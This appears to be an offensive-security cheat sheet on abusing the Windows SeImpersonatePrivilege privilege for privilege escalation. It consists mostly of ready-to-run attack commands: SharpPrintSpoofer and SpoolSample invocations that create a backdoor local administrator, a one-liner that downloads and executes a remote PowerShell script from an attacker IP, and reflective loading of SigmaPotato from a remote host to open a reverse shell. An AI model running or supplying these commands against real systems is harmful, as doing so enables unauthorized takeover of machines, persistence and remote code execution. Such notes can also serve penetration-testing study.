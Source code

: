 # Leveraging SeImpersonatePrivilege

### Method 1

- We can exploit it using the two tools: `SpoolSample.exe` and `SharpPrintSpoofer.exe`.
- My recommendation will be just to create a new local administrator: 
```
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net user amit Password123! /add"
.\SharpPrintSpoofer.exe \\.\pipe\test\pipe\spoolss "net localgroup administrators amit /add"
```

Once SharpPrintSpoofer is listening, trigger the pipe with SpoolSample:
- `.\SpoolSample.exe <hostname> <hostname>/pipe/test`

### Method 2 - two in one
*Note: The SpoolSampleModified including already the functionality of `SharpPrintSpoofer.exe`, thus this one binary can handle the privielge escalation.*

Transfer to victim and run:
- `SpoolSampleModified.exe <hostname> <hostname>/pipe/test "C:\Windows\System32\cmd.exe /c powershell iex(iwr http://192.168.45.195/hollow.ps1 -useb)"`

### Method 3 - .NET Reflection with SigmaPotato

Load from a Remotely Hosted Binary via a WebClient:
```
$WebClient = New-Object System.Net.WebClient
$DownloadData = $WebClient.DownloadData("http(s)://<ip_addr>/SigmaPotato.exe")
[System.Reflection.Assembly]::Load($DownloadData)
# Execute Command
[SigmaPotato]::Main("<command>")
# Establish a PowerShell Reverse Shell (one-liner)
[SigmaPotato]::Main(@("--revshell","<ip_address>","<port>"))
```

